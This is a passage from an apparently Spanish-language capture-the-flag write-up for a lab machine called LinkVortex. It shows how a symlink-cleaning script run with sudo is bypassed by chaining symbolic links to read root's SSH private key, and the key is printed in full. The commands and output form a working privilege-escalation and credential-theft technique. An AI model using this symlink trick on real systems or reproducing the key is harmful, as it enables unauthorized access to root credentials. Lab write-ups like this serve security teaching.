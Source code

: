 Entonces, ahora solo falta saltarnos esta comprobación:
```bash
if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)'; then /usr/bin/unlink $LINK
```

Y es fácil, ya que el script elimina el enlace si detecta que apunta a una ruta crítica como `/etc` o `/root`, pero podemos crear un enlace indirecto, de esta forma el script no va a poder detectar la ruta crítica directamente y vamos a poder leer el contenido.

```console
bob@linkvortex:~$ mkdir -p /tmp/pointed
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa /tmp/pointed/id_rsa
bob@linkvortex:~$ ln -s /tmp/pointed/id_rsa exploit.png
```

Creamos un directorio en `/tmp` donde vamos a crear un enlace simbólico apuntando a la clave privada de `root` (si tiene), y luego vamos a crear otro enlace simbólico hacia en enlace que ya habíamos hecho y lo vamos a guardar como `exploit.png`, entonces el script va a detectar que existe un enlace a `/tmp/pointed/id_rsa` pero no que este archivo es un enlace a la clave privada de `root` ya que no hace la comprobación recursivamente.
```console
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh exploit.png
Link found [ exploit.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
